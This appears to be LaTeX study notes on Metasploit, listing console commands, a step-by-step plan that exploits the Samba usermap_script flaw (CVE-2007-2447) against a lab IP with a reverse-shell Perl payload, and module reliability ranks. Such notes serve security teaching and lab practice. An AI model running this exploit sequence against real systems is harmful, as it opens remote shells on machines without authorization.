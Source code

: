 \documentclass[12pt, letterpaper]{article}
\begin{document}
\subsection*{MSFConsole}

\begin{itemize}
    \item \texttt{sudo msfdb init}: initiate the Metasploit database.
    \item \texttt{msfconsole}: start the metasploit console
    \item \texttt{show exploits}: list all commands
    \item \texttt{search 2007-2447}: search for an exploit
    \item \texttt{grep usermap search cve-2007}: command line grep
\end{itemize}

\subsection*{Metasploit Exploitation Plan}

\begin{itemize}
    \item Find a vulnerability.
    \item \texttt{use multi/samba/usermap\_script}: use an exploit that exploits vulnerability
    \item \texttt{show options}, \texttt{set RHOST 172.16.28.161}: set options for the exploit
    \item \texttt{show payloads}: determine payload to use
    \item \texttt{set PAYLOAD cmd/unix/reverse\_perl}: set the payload
    \item \texttt{show advanced}: show even more options
    \item \texttt{exploit}: run the exploit!
\end{itemize}

\subsection*{Metasploit Module Rank}

\begin{itemize}
    \item \textbf{Excellent} (will never crash the service)
    \item \textbf{Great} (has default target, auto-detect application specific return address)
    \item \textbf{Good} (default target is the common case)
    \item \textbf{Normal} (reliable but depends upon a specific version)
    \item \textbf{Average} (unreliable or difficult to exploit)
    \item \textbf{Low} (nearly impossible to exploit)
    \item \textbf{Manual} (unstable or difficult to exploit or of no use unless configured by user)
\end{itemize}
\end{document}
